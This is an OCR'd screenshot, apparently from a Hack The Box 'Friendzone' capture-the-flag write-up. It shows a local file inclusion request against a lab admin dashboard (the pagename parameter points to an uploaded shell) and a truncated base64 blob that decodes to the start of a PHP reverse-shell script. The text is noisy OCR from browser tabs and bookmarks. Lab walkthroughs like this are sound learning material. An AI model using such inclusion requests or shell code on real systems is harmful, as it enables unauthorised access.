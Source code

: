 ![](../../../Screenshots/Pasted%20image%2020210922215003.png)

Friendzone Admin ! - Mozilla Firefox
o x
Hack The Box :: Mac X
Hack The Box :: Hack X
friendzone.red/js/js/
х
friendzone.red/js/js/
Х
Friendzone Escape soft X
404 Not Found
х
Friendzone Admin! X
Index of /images
х
Friend Zone Admin!
х
https://administrator 1.fi X
+
Q https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell
Millo
=
Google Kali Linux
Kali Training
Kali Tools
Kali Forums
> Kali Docs
NetHunter | Offensive Security | MSFU Exploit-DB SGHDB
Smart photo script for friendzone corp
!
* Note : we are dealing with a beginner php developer and the application is not tested yet !
Ha Ha!
Something went worng !, the script include wrong param !
PD9waHAKLy8gQ29weXJpZ2h0IChjKSAyMDIWIE12YW4gxaBpbmNlawovLyB2Mi40Ci8vIFJlcXVpcmVzIFBIUCB2NS4wLjAgb3IgZ3JlYXRlci4KLy8gV29ya3Mgb24gTGludXggT1MsIG1hY09TLCBhbmQgV2luZG93cyBPUy4KLy8gU2VIIHROZ
